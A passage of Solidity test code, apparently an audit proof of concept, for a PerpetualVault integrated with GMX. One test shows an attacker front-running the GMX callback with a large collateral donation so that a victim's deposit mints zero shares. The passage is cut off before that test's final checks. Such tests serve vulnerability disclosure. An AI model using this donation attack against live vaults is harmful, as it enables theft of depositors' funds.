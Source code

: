 ```js
    
    MarketPrices memory prices = mockData.getMarketPrices();
    bytes[] memory data = new bytes[](1);
    data[0] = abi.encode(3380000000000000);
    vm.prank(keeper);
    PerpetualVault(vault).run(true, false, prices, data);
    GmxOrderExecuted(true);
    vm.prank(keeper);
    PerpetualVault(vault).runNextAction(prices, data);
    // ###############################

    console.log("\n=== Deposit2 === \n");
    depositFixture(alice, 1e8);
    vm.prank(keeper);
    PerpetualVault(vault).runNextAction(prices, data);

    console.log("\nGMX callback starts");
    GmxOrderExecuted(true);
    console.log("GMX callback ends");
    uint256[] memory aliceDeposits = PerpetualVault(vault).getUserDeposits(alice);
    (,uint256 sharesIssued,,,,) = PerpetualVault(vault).depositInfo(aliceDeposits[1]);
    assertGt(sharesIssued, 0); 
  }

  function test_donationBug_Pass_2_zeroSharesMinted() external {
    address keeper = PerpetualVault(vault).keeper();
    address alice = makeAddr("alice");
    vm.deal(alice, 0.5 ether); // some ETH for gas fees

    // ############################
    console.log("\n=== Deposit1 === \n");
    depositFixture(alice, 1e8);
    
    MarketPrices memory prices = mockData.getMarketPrices();
    bytes[] memory data = new bytes[](1);
    data[0] = abi.encode(3380000000000000);
    vm.prank(keeper);
    PerpetualVault(vault).run(true, false, prices, data);
    GmxOrderExecuted(true);
    vm.prank(keeper);
    PerpetualVault(vault).runNextAction(prices, data);
    // ###############################

    console.log("\n=== Deposit2 === \n");
    depositFixture(alice, 1e8);
    vm.prank(keeper);
    PerpetualVault(vault).runNextAction(prices, data);

    // $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
    // Attacker donates some collateral tokens by front-running GMX callback
    console.log("\nAttacker Donates\n");
    address attacker = makeAddr("attacker");
    uint256 donationAmount = 1000582829999999900258284;
    IERC20 collateralToken = PerpetualVault(vault).collateralToken();
    deal(address(collateralToken), attacker, donationAmount);
    vm.prank(attacker);
    IERC20(collateralToken).transfer(vault, donationAmount);
    // $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$

    console.log("\nGMX callback starts");
    GmxOrderExecuted(true);
    console.log("GMX callback ends");
    uint256[] memory aliceDeposits = PerpetualVault(vault).getUserDeposits(alice);
```